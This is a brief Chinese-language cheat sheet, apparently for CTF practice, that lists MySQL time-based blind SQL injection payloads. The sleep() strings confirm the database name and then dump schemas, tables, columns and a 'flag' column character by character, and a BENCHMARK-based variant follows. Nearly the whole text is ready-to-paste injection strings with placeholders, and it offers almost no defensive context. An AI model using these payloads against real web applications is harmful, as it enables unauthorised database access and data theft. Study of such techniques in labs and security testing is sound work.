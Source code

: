 

# sleep盲注

# 1.确定语句

```javascript
and If(ascii(substr(database(),1,1))=115,1,sleep(5))--+
```



# 2.爆库语句

```javascript
if((substr((select group_concat(schema_name) from information_schema.schemata
limit 0,1),NUM/*第几个*/,1)=ASCII/*需要匹配子的ascii*/),sleep(3),0)--+"
```





# 3.爆表语句

```javascript
if((substr((select group_concat(table_name) from information_schema.tables
where table_schema=DATA_NAME/*库名*/
limit 0,1),NUM/*第几个*/,1)=ASCII/*需要匹配子的ascii*/),sleep(3),0)--+"
```





# 4.爆字段语句

```javascript
if((substr((select group_concat(column_name) from information_schema.columns
where table_schema=DATA_NAME/*库名*/ and table_name=TABLE_NAME/*表名*/
limit 0,1),NUM/*第几个*/,1)=ASCII/*需要匹配子的ascii*/),sleep(3),0)--+"
```



# 5.爆内容

```javascript
if((substr((select flag/*所要报字段名*/ from flags.flag/*数据库中的表*/
limit 0,1),NUM/*第几个*/,1)=ASCII/*需要匹配子的ascii*/),sleep(3),0)--+"
```



# benchmark盲注

爆库语句

```javascript
UNION SELECT (IF(SUBSTRING(current,1,1)=CHAR(115),
BENCHMARK(50000000,ENCODE('MSG','by 5 seconds')),null)),2,3 FROM 
(select database() as current) as tb1--+
```

